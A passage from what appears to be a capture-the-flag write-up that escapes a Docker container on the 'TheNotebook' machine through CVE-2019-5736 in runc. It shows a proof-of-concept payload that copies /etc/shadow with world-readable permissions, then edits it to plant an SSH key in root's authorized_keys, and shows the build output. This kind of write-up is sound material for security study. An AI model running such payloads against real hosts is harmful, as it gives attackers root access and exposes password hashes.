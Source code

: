     noah@thenotebook:~$ docker -v
    Docker version 18.06.0-ce, build 0ffa825



### CVE-2019-5736

#### Theory

There's a vulnerability in the version of `runc` used by Docker before
18.09.2
([CVE-2019-5736](https://nvd.nist.gov/vuln/detail/CVE-2019-5736)) which
allows at attacker to overwrite the host `runc` binary from access as
root inside a container, and thus gives host root access. [This post
from
Unit42](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/)
does a really good job of breaking it down in detail.

The idea is that from within the container, I'll overwrite `/bin/sh`
with `#!/proc/self/exe`, which is a symbolic link to the binary that
started the container process. Next, I'll write to the `runc` binary
(which is shared on the host), and have it point to the payload.

Now, when someone tries to initiate a container (ie, runs `docker exec`
from the host), the payload will execute on the host as root.

#### Practice

There are tons of POCs out there, but I really like [this
one](https://github.com/Frichetten/CVE-2019-5736-PoC). It's a simple Go
script, which I'll save on my system. At line 15-16, there's the payload
that will be executed:



    // This is the line of shell commands that will execute on the host
    var payload = "#!/bin/bash \n cat /etc/shadow > /tmp/shadow && chmod 777 /tmp/shadow"



I'll change that to write my SSH key to `/root/.ssh/authorized_keys`:



    var payload = "#!/bin/bash \n mkdir -p /root/.ssh && echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys" 



I'll build the ELF with `go build cve-2019-5673.go`, and now there's an
executable:



    oxdf@parrot$ file cve-2019-5673
    cve-2019-5673: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=mhd4P3-cWrPAeCPFcvJR/6R7blmjNRY_26eSCPvqf/Q8QS3RaPp3UjsdNjgEha/h2Fafwkir7K48YtCpYjM, not stripped



I'll want two shells on TheNotebook as noah, which is easy with SSH. In
the first, I'll drop into the container and upload the binary:
